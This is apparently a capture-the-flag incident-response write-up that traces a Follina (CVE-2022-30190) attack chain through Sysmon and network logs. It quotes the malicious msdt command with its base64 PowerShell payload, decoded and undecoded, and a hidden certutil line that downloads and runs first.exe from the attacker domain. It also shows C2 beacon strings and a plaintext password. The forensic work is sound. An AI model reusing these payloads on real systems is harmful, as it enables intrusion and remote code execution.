





*You are tasked to conduct an investigation from a workstation affected by a full attack chain.*

**Difficulty:** Medium

In this room we will act as Incident Response and perform an investigation using endpoint and network logs. We are given the below artifacts for this investigation and suggested to use tools like Event Viewer, Timeline Explorer, SysmonView, Wireshark and Brim. We can follow the tips in the Investigation Guide for each step of the attack chain and use the info given to us by the SOC analyst.

- capture.pcapng
- sysmon.evtx
- windows.evtx

## Preparation - Tools and Artifacts

To view  the sysmon and windows logs in Timeline explorer, we need to use the EvtxECmd tool to convert the `.evtx` file to `.csv`. This command is shown below and can be altered to convert the Windows log file.

PS C:\Tools\EvtxECmd> `.\EvtxECmd.exe -f 'C:\Users\user\Desktop\Incident Files\sysmon.evtx' --csv 'C:\Users\user\Desktop\Incident Files' --csv sysmon.csv`

**What is the SHA256 hash of the capture.pcapng file?**

PS C:\Users\user\Desktop\Incident Files> `Get-FileHash -Algorithm SHA256 .\capture.pcapng`

```
Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          CB3A1E6ACFB246F256FBFEFDB6F494941AA30A5A7C3F5258C3E63CFA27A23DC6       C:\Users\user\Desktop\Incident Files\capture.pcapng
```

---

**What is the SHA256 hash of the sysmon.evtx file?**

PS C:\Users\user\Desktop\Incident Files> `Get-FileHash -Algorithm SHA256 .\sysmon.evtx`

```
Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          665DC3519C2C235188201B5A8594FEA205C3BCBC75193363B87D2837ACA3C91F       C:\Users\user\Desktop\Incident Files\sysmon.evtx
```

---

**What is the SHA256 hash of the windows.evtx file?**

PS C:\Users\user\Desktop\Incident Files> `Get-FileHash -Algorithm SHA256 .\windows.evtx`

```
Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          D0279D5292BC5B25595115032820C978838678F4333B725998CFE9253E186D60       C:\Users\user\Desktop\Incident Files\windows.evtx
```

## Initial Access - Malicious Document

Searching the sysmon csv file in Timeline Explorer for the ".doc" extension returns a few documents, the first, by timestamp is called "free_magicules.doc". The relevant data below from Record # 94, shows that this document was downloaded using "chrome.exe", aligning with the information given to us by the SOC analyst.

- 2022-06-20 17:12:58
- Event ID 15: FileCreateStreamHash
- PID: 8132

```
{"@Name":"UtcTime","#text":"2022-06-20 17:12:58.702"},
{"@Name":"ProcessId","#text":"8132"},
{"@Name":"Image","#text":"C:\\Program Files\\Google\\Chrome\\Application\\chrome.exe"},
{"@Name":"TargetFilename","#text":"C:\\Users\\benimaru\\Downloads\\free_magicules.doc"},
{"@Name":"Hash","#text":"MD5=3BB23AD386E59304088DFD5AB05818C5,SHA256=78AD35149F3C8CCA7B950D755FAA32EB9315C5F49E6638AE9D515FCE1506B3C8,IMPHASH=00000000000000000000000000000000"},
{"@Name":"User","#text":"TEMPEST\\benimaru"}]}}
```

This event gives the information to answer the following 2 questions.

---

**The user of this machine was compromised by a malicious document. What is the file name of the document?**

free_magicules.doc

---

**What is the name of the compromised user and machine?** _Format: username-machine name_

benimaru-TEMPEST

---

**What is the PID of the Microsoft Word process that opened the malicious document?**

Another event (Record # 102) returned by the origional ".doc" search shows this file being opened with "winword.exe" with the below command:

`"C:\Program Files (x86)\Microsoft Office\Root\Office16\WINWORD.EXE" /n "C:\Users\benimaru\Downloads\free_magicules.doc" /o ""`

- 2022-06-20 17:13:12
- Event ID 1: Process Creation
- PID: **496**

```
{"@Name":"UtcTime","#text":"2022-06-20 17:13:12.410"},
{"@Name":"ProcessId","#text":"496"},
{"@Name":"Image","#text":"C:\\Program Files (x86)\\Microsoft Office\\root\\Office16\\WINWORD.EXE"},
{"@Name":"CommandLine","#text":"\"C:\\Program Files (x86)\\Microsoft Office\\Root\\Office16\\WINWORD.EXE\" /n \"C:\\Users\\benimaru\\Downloads\\free_magicules.doc\" /o \"\""},
{"@Name":"CurrentDirectory","#text":"C:\\Users\\benimaru\\Downloads\\"},
{"@Name":"Hashes","#text":"MD5=09B09DC651D921FE022B16C234E64A12,SHA256=E25F32401FD3D25958B8B99F280F0325B232E54F185CC5D6E0710923005AC64A,IMPHASH=744185317F5DAAFAEB367DDD2932CC02"}
```

---

**Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?**

I searched for 496 and filtered on `Event ID = 22` to return DNS queries made by this process. Other than a few that look expected to "\*.office.com", DNS queries were made to the domain "phishteam.xyz". 

```
{"@Name":"UtcTime","#text":"2022-06-20 16:59:29.449"},
{"@Name":"ProcessId","#text":"496"},{"@Name":"QueryName","#text":"phishteam.xyz"},
{"@Name":"QueryResults","#text":"64:ff9b::a747:c7bf;::ffff:167.71.199.191;"},{"@Name":"Image","#text":"C:\\Program Files (x86)\\Microsoft Office\\Root\\Office16\\WINWORD.EXE"},{"@Name":"User","#text":"TEMPEST\\benimaru"}
```

This event also showed an IP address **"167.71.199.191"**. I searched this and was able to see a little more information, like Destination Port: 80, in the Event ID 3 (Network Connection) event that followed this DNS request.

```
{"@Name":"UtcTime","#text":"2022-06-20 16:59:29.641"},
{"@Name":"ProcessId","#text":"496"},
{"@Name":"Image","#text":"C:\\Program Files (x86)\\Microsoft Office\\Root\\Office16\\WINWORD.EXE"},
{"@Name":"User","#text":"TEMPEST\\benimaru"},
{"@Name":"Protocol","#text":"tcp"},
{"@Name":"Initiated","#text":"True"},
{"@Name":"SourceIsIpv6","#text":"False"},
{"@Name":"SourceIp","#text":"192.168.254.107"},
{"@Name":"SourceHostname","#text":"TEMPEST"},
{"@Name":"SourcePort","#text":"51830"},
{"@Name":"DestinationIp","#text":"167.71.199.191"},
{"@Name":"DestinationPort","#text":"80"},
{"@Name":"DestinationPortName","#text":"http"}
```

---

**What is the base64 encoded string in the malicious payload executed by the document?**

I found this event by searching "base64" and luckily the string was used in the command line data. This is a Event ID 1 (Process Creation) event with a Parent Process ID matching the PID of the WINWORD.exe process (496). We can see from the CommandLine and OriginalFileName fields it is creating a process with "msdt.exe".

- 2022-06-20 17:13:35
- Event ID 1: Process Creation
- ParentProcessID: 496

```
{"@Name":"UtcTime","#text":"2022-06-20 17:13:35.180"},{"@Name":"ProcessId","#text":"4868"},
{"@Name":"Image","#text":"C:\\Windows\\SysWOW64\\msdt.exe"},
{"@Name":"Description","#text":"Diagnostics Troubleshooting Wizard"},
{"@Name":"Product","#text":"Microsoft® Windows® Operating System"},
{"@Name":"OriginalFileName","#text":"msdt.exe"},
{"@Name":"CommandLine","#text":"C:\\Windows\\SysWOW64\\msdt.exe ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\""},
{"@Name":"CurrentDirectory","#text":"C:\\Users\\benimaru\\Downloads\\"},
{"@Name":"User","#text":"TEMPEST\\benimaru"},
{"@Name":"Hashes","#text":"MD5=4EBC38519675FB0BA6915D0D8A7FCD01,SHA256=1BE8AFD2962596807611E6A8836952D6BBDC24BDE52A34905006FF78F1AD5D12,IMPHASH=AF42CCE29BF30BC07C0496AF0420FD91"},
{"@Name":"ParentProcessId","#text":"496"}
```

To answer the question about the base64 encoded string, we can find this in the CommandLine part within the FromBase64String function.

```
JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==
```

Decoding this gives the following, which seems to be downloading and extracting a file called "update.zip" from "phishteam.xyz".

```
$app=[Environment]::GetFolderPath('ApplicationData');cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip; Expand-Archive .\update.zip -DestinationPath .; rm update.zip;
```

---

**What is the CVE number of the exploit used by the attacker to achieve a remote code execution?** _Format: XXXX-XXXXX_

I searched Google for the executables involved in the Parent-Child process relationship we just looked at, by searching "winword msdt". This returned information about a vulnerability called Follina that uses the MSDT Diagnostic Tool to execute code from a HTML file fetched with Word's remote template feature. This is (CVE-2022-30190), you can read more at the below blog link.

https://msrc.microsoft.com/blog/2022/05/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/

## Initial Access - Stage 2 execution

**The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?**

From the previously decoded base64 command we can see where the downloaded file "update.zip" was extracted:

```
$app=[Environment]::GetFolderPath('ApplicationData');cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip; Expand-Archive .\update.zip -DestinationPath .; rm update.zip;
```

By searching "update.zip" or "Startup" from the destination path above, we find the below FileCreate event (Record # 151).

- 2022-06-20 17:13:37
- Event ID 11 (FileCreate)

```
{"EventData":{"Data":[{"@Name":"RuleName","#text":"T1023"},{"@Name":"UtcTime","#text":"2022-06-20 17:13:37.822"},{"@Name":"ProcessGuid","#text":"4bbef3ae-aabf-62b0-380a-000000000700"},{"@Name":"ProcessId","#text":"2628"},{"@Name":"Image","#text":"C:\\Windows\\SysWOW64\\sdiagnhost.exe"},{"@Name":"TargetFilename","#text":"C:\\Users\\benimaru\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\update.zip"},{"@Name":"CreationUtcTime","#text":"2022-06-20 17:13:37.822"},{"@Name":"User","#text":"TEMPEST\\benimaru"}]}}
```

In the TargetFilename field we can find the full target path:

C:\\Users\\benimaru\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup

---

**The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user?**
_Format: Remove the double quotes from the log._

Given the info in the Investigation Guide, I searched Timeline Explorer for "explorer.exe", looking at events shortly after the last notable event's timestamp "17:13:37". A short list of event was returned that have explorer.exe as the ParentProcess, most with Event ID 1 (Process Creation). We can narrow these down by `username = TEMPEST\benimaru`.

I looked at the Executable Info of the filtered events, one stood out that included the phishteam.xyz domain.

`"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe`

Looking closer at this command, it will launch a hidden PowerShell window and download "first.exe" from "phishteam.xyz" to the Public Downloads folders and immediately execute "first.exe". Below are the most relevant fields from this event.

- 2022-06-20 17:15:10
- Event ID 1: Process Creation
- ParentImage: "C:\\Windows\\explorer.exe"

```
{"@Name":"UtcTime","#text":"2022-06-20 17:15:10.547"},
{"@Name":"ProcessId","#text":"9052"},
{"@Name":"Image","#text":"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe"},
{"@Name":"Description","#text":"Windows PowerShell"},
{"@Name":"CommandLine","#text":"\"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\" -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\\Users\\Public\\Downloads\\first.exe; C:\\Users\\Public\\Downloads\\first.exe"},
{"@Name":"User","#text":"TEMPEST\\benimaru"},
{"@Name":"ParentProcessId","#text":"5784"},{"@Name":"ParentImage","#text":"C:\\Windows\\explorer.exe"},
{"@Name":"ParentCommandLine","#text":"C:\\Windows\\Explorer.EXE"}
```

---

**Based on Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution?**

Shortly after this event, or by searching "first.exe" another Process Creation event is found of "first.exe" being executed by Powershell, this event contains the hash of first.exe we are looking for.

- 2022-06-20 17:15:14
- Event ID 1: Process Creation

```
{"@Name":"UtcTime","#text":"2022-06-20 17:15:14.129"},
{"@Name":"ProcessId","#text":"8948"},{"@Name":"Image","#text":"C:\\Users\\Public\\Downloads\\first.exe"},
{"@Name":"CommandLine","#text":"\"C:\\Users\\Public\\Downloads\\first.exe\""},
{"@Name":"User","#text":"TEMPEST\\benimaru"},
{"@Name":"Hashes","#text":"MD5=C9AA36F483B61CFA9758C44ACDB776AC,SHA256=CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8,IMPHASH=468991D410EEFBCFB478FB910DDA2CE2"},
{"@Name":"ParentProcessId","#text":"9052"},
{"@Name":"ParentImage","#text":"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe"},
{"@Name":"ParentCommandLine","#text":"\"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\" -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\\Users\\Public\\Downloads\\first.exe; C:\\Users\\Public\\Downloads\\first.exe"},
```

The SHA256 hash can be found in this event's Hashes field:

SHA256=CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8

---

**The stage 2 payload downloaded establishes a connection to a c2 server. What is the domain and port used by the attacker?**
_Format: domain:port_

The events following the execution of first.exe appear to be c2 traffic, showing repeated DNS query (Event ID 22) and Network connection (Event ID 3) events. Searching the PID of the first.exe process: 8948 will limit the results to this traffic.

Sample DNS Query event:

```
{"@Name":"UtcTime","#text":"2022-06-20 17:01:12.861"},
{"@Name":"ProcessId","#text":"8948"},
{"@Name":"QueryName","#text":"resolvecyber.xyz"},
{"@Name":"QueryResults","#text":"64:ff9b::a747:dea2;::ffff:167.71.222.162;"},
{"@Name":"Image","#text":"C:\\Users\\Public\\Downloads\\first.exe"},
{"@Name":"User","#text":"TEMPEST\\benimaru"}]}}
```

Sample Network Connection event:

```
{"@Name":"UtcTime","#text":"2022-06-20 17:01:12.912"},
{"@Name":"ProcessId","#text":"8948"},
{"@Name":"Image","#text":"C:\\Users\\Public\\Downloads\\first.exe"},
{"@Name":"User","#text":"TEMPEST\\benimaru"},
{"@Name":"Protocol","#text":"tcp"},
{"@Name":"Initiated","#text":"True"},
{"@Name":"SourceIsIpv6","#text":"False"},
{"@Name":"SourceIp","#text":"192.168.254.107"},
{"@Name":"SourceHostname","#text":"TEMPEST"},
{"@Name":"SourcePort","#text":"51873"},
{"@Name":"SourcePortName","#text":"-"},
{"@Name":"DestinationIsIpv6","#text":"False"},
{"@Name":"DestinationIp","#text":"167.71.222.162"},
{"@Name":"DestinationHostname","#text":"-"},
{"@Name":"DestinationPort","#text":"80"},
{"@Name":"DestinationPortName","#text":"http"}
```

By looking at both of these types of events we can find the domain and destination port are:

resolvecyber.xyz:80

## Initial Access - Malicious Document Traffic

**What is the URL of the malicious payload embedded in the document?**

We have come across two URLs so far: phishteam.xyz and resolvecyber.xyz. Using the Brim filter with the first URL encountered, we can see requests for each of the documents involved in the attach so far. There are multiple network logs to this domain's index.html page, which is the URL this question is asking for.

`_path=="http" "phishteam.xyz" | cut ts, host, uri, method | sort ts`



---

**What is the encoding used by the attacker on the c2 connection?**

We previously found out the c2 connection is using the domain "resolvecyber.xyz". I did a similar Brim filter with this domain and what appears to be Base64 encoded URI parameters.

`_path=="http" "resolvecyber.xyz" | cut ts, method, host, uri | sort ts`



---

**The malicious c2 binary sends a payload using a parameter that contains the executed command results. What is the parameter used by the binary?**

Looking at the uri of one of the logs that includes the Base64 encoding, we can see the parameter name following the "?", called "q".

`/9ab62b5?q=cHdkIC0gDQpQYXRoICAgICAgICAgICAgICAgDQotLS0tICAgICAgICAgICAgICAgDQpDOlxXaW5kb3dzXHN5c3RlbTMyDQoNCg0K`

---

**The malicious c2 binary connects to a specific URL to get the command to be executed. What is the URL used by the binary?**

Similarly, the uri of all the c2 traffic shows requests to the URL "/9ab62b5".

---

**What is the HTTP method used by the binary?**

As shown in the above screenshot, the binary uses GET requests.

---

**Based on the user agent, what programming language was used by the attacker to compile the binary?**
_Format: Answer in lowercase_

Adjusting the Brim filter to include user_agent, we see all the c2 traffic has the user_agent: "Nim httpclient/1.6.6", indicating the programming language Nim was used.

`_path=="http" "resolvecyber.xyz" | cut ts, host, uri, method, user_agent | sort ts`

## Discovery - Internal Reconnaissance

To get all the encoded commands I used the below Brim filter:

`_path=="http" "/9ab62b5?" | cut ts, host, uri | sort ts`



I copied these URIs to a list, removing the "/9ab62b5?q=" part and decoded the strings in CyberChef, using "From Base64". This gave me all the commands executed by the attacker and their output, which will help answer the questions in this section.

---

**The attacker was able to discover a sensitive file inside the machine of the user. What is the password discovered on the aforementioned file?**

Decoding the following string reveals the contents of a file called "automation.ps1", containing what appears to be benimaru's password

Base64 encoded string:

```
Y2F0IEM6XFVzZXJzXEJlbmltYXJ1XERlc2t0b3BcYXV0b21hdGlvbi5wczEgLSAkdXNlciA9ICJURU1QRVNUXGJlbmltYXJ1Ig0KJHBhc3MgPSAiaW5mZXJub3RlbXBlc3QiDQoNCiRzZWN1cmVQYXNzd29yZCA9IENvbnZlcnRUby1TZWN1cmVTdHJpbmcgJHBhc3MgLUFzUGxhaW5UZXh0IC1Gb3JjZTsNCiRjcmVkZW50aWFsID0gTmV3LU9iamVjdCBTeXN0ZW0uTWFuYWdlbWVudC5BdXRvbWF0aW9uLlBTQ3JlZGVudGlhbCAkdXNlciwgJHNlY3VyZVBhc3N3b3JkDQoNCiMjIFRPRE86IEF1dG9tYXRlIGVhc3kgdGFza3MgdG8gaGFjayB3b3JraW5nIGhvdXJzDQo=
```

Decoded:

```
cat C:\Users\Benimaru\Desktop\automation.ps1 - $user = "TEMPEST\benimaru"
$pass = "infernotempest"

$securePassword = ConvertTo-SecureString $pass -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $user, $securePassword

## TODO: Automate easy tasks to hack working hours
```

---

**The attacker then enumerated the list of listening ports inside the machine. What is the listening port that could provide a remote shell inside the machine?**

Continuing this method, I found the attacker executed the command to enumerate listening tcp ports: `netstat -ano -p tcp`

Base64 encoded string:

```
bmV0c3RhdCAtYW5vIC1wIHRjcCAtIA0KQWN0aXZlIENvbm5lY3Rpb25zDQoNCiAgUHJvdG8gIExvY2FsIEFkZHJlc3MgICAgICAgICAgRm9yZWlnbiBBZGRyZXNzICAgICAgICBTdGF0ZSAgICAgICAgICAgUElEDQogIFRDUCAgICAwLjAuMC4wOjEzNSAgICAgICAgICAgIDAuMC4wLjA6MCAgICAgICAgICAgICAgTElTVEVOSU5HICAgICAgIDg2NA0KICBUQ1AgICAgMC4wLjAuMDo0NDUgICAgICAgICAgICAwLjAuMC4wOjAgICAgICAgICAgICAgIExJU1RFTklORyAgICAgICA0DQogIFRDUCAgICAwLjAuMC4wOjUwNDAgICAgICAgICAgIDAuMC4wLjA6MCAgICAgICAgICAgICAgTElTVEVOSU5HICAgICAgIDU1MDgNCiAgVENQICAgIDAuMC4wLjA6NTM1NyAgICAgICAgICAgMC4wLjAuMDowICAgICAgICAgICAgICBMSVNURU5JTkcgICAgICAgNA0KICBUQ1AgICAgMC4wLjAuMDo1OTg1ICAgICAgICAgICAwLjAuMC4wOjAgICAgICAgICAgICAgIExJU1RFTklORyAgICAgICA0DQogIFRDUCAgICAwLjAuMC4wOjc2ODAgICAgICAgICAgIDAuMC4wLjA6MCAgICAgICAgICAgICAgTElTVEVOSU5HICAgICAgIDQ5NjQNCiAgVENQICAgIDAuMC4wLjA6NDcwMDEgICAgICAgICAgMC4wLjAuMDowICAgICAgICAgICAgICBMSVNURU5JTkcgICAgICAgNA0KICBUQ1AgICAgMC4wLjAuMDo0OTY2NCAgICAgICAgICAwLjAuMC4wOjAgICAgICAgICAgICAgIExJU1RFTklORyAgICAgICA0NzYNCiAgVENQICAgIDAuMC4wLjA6NDk2NjUgICAgICAgICAgMC4wLjAuMDowICAgICAgICAgICAgICBMSVNURU5JTkcgICAgICAgMTIxMg0KICBUQ1AgICAgMC4wLjAuMDo0OTY2NiAgICAgICAgICAwLjAuMC4wOjAgICAgICAgICAgICAgIExJU1RFTklORyAgICAgICAxNzYwDQogIFRDUCAgICAwLjAuMC4wOjQ5NjY3ICAgICAgICAgIDAuMC4wLjA6MCAgICAgICAgICAgICAgTElTVEVOSU5HICAgICAgIDI0MjQNCiAgVENQICAgIDAuMC4wLjA6NDk2NzEgICAgICAgICAgMC4wLjAuMDowICAgICAgICAgICAgICBMSVNURU5JTkcgICAgICAgNjI0DQogIFRDUCAgICAwLjAuMC4wOjQ5Njc2ICAgICAgICAgIDAuMC4wLjA6MCAgICAgICAgICAgICAgTElTVEVOSU5HICAgICAgIDYwOA0KICBUQ1AgICAgMTkyLjE2OC4yNTQuMTA3OjEzOSAgICAwLjAuMC4wOjAgICAgICAgICAgICAgIExJU1RFTklORyAgICAgICA0DQogIFRDUCAgICAxOTIuMTY4LjI1NC4xMDc6NTE4MDIgIDUyLjEzOS4yNTAuMjUzOjQ0MyAgICAgRVNUQUJMSVNIRUQgICAgIDMyMTYNCiAgVENQICAgIDE5Mi4xNjguMjU0LjEwNzo1MTgzOSAgMzQuMTA0LjM1LjEyMzo4MCAgICAgICBUSU1FX1dBSVQgICAgICAgMA0KICBUQ1AgICAgMTkyLjE2OC4yNTQuMTA3OjUxODU4ICAxMDQuMTAxLjIyLjEyODo4MCAgICAgIFRJTUVfV0FJVCAgICAgICAwDQogIFRDUCAgICAxOTIuMTY4LjI1NC4xMDc6NTE4NjAgIDIwLjIwNS4xNDYuMTQ5OjQ0MyAgICAgVElNRV9XQUlUICAgICAgIDANCiAgVENQICAgIDE5Mi4xNjguMjU0LjEwNzo1MTg2MSAgMjA0Ljc5LjE5Ny4yMDA6NDQzICAgICBFU1RBQkxJU0hFRCAgICAgNDM1Mg0KICBUQ1AgICAgMTkyLjE2OC4yNTQuMTA3OjUxODcxICAyMC4xOTAuMTQ0LjE2OTo0NDMgICAgIFRJTUVfV0FJVCAgICAgICAwDQogIFRDUCAgICAxOTIuMTY4LjI1NC4xMDc6NTE4NzYgIDUyLjE3OC4xNy4yOjQ0MyAgICAgICAgRVNUQUJMSVNIRUQgICAgIDQzODgNCiAgVENQICAgIDE5Mi4xNjguMjU0LjEwNzo1MTg3OCAgMjAuNjAuMTc4LjM2OjQ0MyAgICAgICBFU1RBQkxJU0hFRCAgICAgNDM4OA0KICBUQ1AgICAgMTkyLjE2OC4yNTQuMTA3OjUxODgxICA1Mi4xMDkuMTI0LjExNTo0NDMgICAgIEVTVEFCTElTSEVEICAgICA0Mzg4DQogIFRDUCAgICAxOTIuMTY4LjI1NC4xMDc6NTE4ODIgIDUyLjEzOS4xNTQuNTU6NDQzICAgICAgRVNUQUJMSVNIRUQgICAgIDQzODgNCiAgVENQICAgIDE5Mi4xNjguMjU0LjEwNzo1MTg4NCAgNDAuMTE5LjIxMS4yMDM6NDQzICAgICBFU1RBQkxJU0hFRCAgICAgNDM4OA0KICBUQ1AgICAgMTkyLjE2OC4yNTQuMTA3OjUxODk1ICA1Mi4xNTIuOTAuMTcyOjQ0MyAgICAgIEVTVEFCTElTSEVEICAgICA1NTA4DQogIFRDUCAgICAxOTIuMTY4LjI1NC4xMDc6NTE4OTYgIDIwLjQ0LjIyOS4xMTI6NDQzICAgICAgRVNUQUJMSVNIRUQgICAgIDg5MDQNCg==
```

Decoded:

```
netstat -ano -p tcp - 
Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       864
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5508
  TCP    0.0.0.0:5357           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       4964
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       476
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1212
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1760
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2424
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:49676          0.0.0.0:0              LISTENING       608
  TCP    192.168.254.107:139    0.0.0.0:0              LISTENING       4
  TCP    192.168.254.107:51802  52.139.250.253:443     ESTABLISHED     3216
